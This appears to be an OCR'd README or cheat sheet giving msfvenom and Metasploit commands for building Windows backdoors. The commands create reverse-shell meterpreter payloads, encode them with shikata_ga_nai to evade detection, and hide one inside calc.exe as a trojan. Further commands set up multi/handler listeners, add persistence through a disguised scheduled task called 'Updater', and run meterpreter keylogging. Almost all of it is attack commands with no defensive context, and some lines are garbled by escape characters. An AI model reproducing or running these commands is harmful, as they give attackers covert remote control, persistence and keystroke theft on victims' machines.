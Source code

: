 To begin, you need first to create a directory called backdoors. You can use the following command.

> mkdir backdoor



##### Creating an Executable Binary (Unencoded Payload)



Our example will be using

“windows/meterpreter/reverse\_https”



payload

msfpayload {payload\_name} S



msfvenom -p windows/meterpreter/reverse\_tcp LHOST={YOUR\_IP} LPORT={PORT} -f exe -o /root/backdoors/unencoded-payload.exe



##### Creating an Executable Binary (Encoded Payload)



msfvenom -p windows/meterpreter/reverse\_tcp LHOST={Your\_IP} LPORT={ANY\_PORT} -e x86/countdown -i 2 -e x86/shikata\_ga\_nai -i 3 -f exe -o /root/backdoors/encoded-payload.exe





###### Setting up a Metasploit Listener



> Msfconsole 

> use exploit/multi/handler 

> set payload windows/meterpreter/reverse\\\_tcp 

> set lhost {your\\\\\\\_ip} 

> set lport {port} 

> exploit





##### Encoded Trojan Horse - For Windows 7 x64



msfvenom -p windows/x64/meterpreter/reverse\_tcp LHOST={YOUR\_IP} LPORT={PORT} -e x86/shikata\_ga\_nai -i 3 -x /calc.exe -k -f exe -o /root/backdoors/Trojan-calc64.exe



###### Setting up a Metasploit Listener



> Msfconsole 

> use exploit/multi/handler 

> set PAYLOAD windows/x64/meterpreter/reverse\\\_tcp

> set lhost {your\\\_ip} 

> set lport {port} 

> exploit



##### Persistent Backdoors



The command is as follows:

schtasks /create /sc minute /mo 5 /tn "Updater" /tr "C:\\path\\to\\backdoor.exe"



##### Keyloggers 



Keyscan\_start 

Keyscan\_dump 

Keyscan\_dump (repeat as necessary) 

Keyscan\_stop 



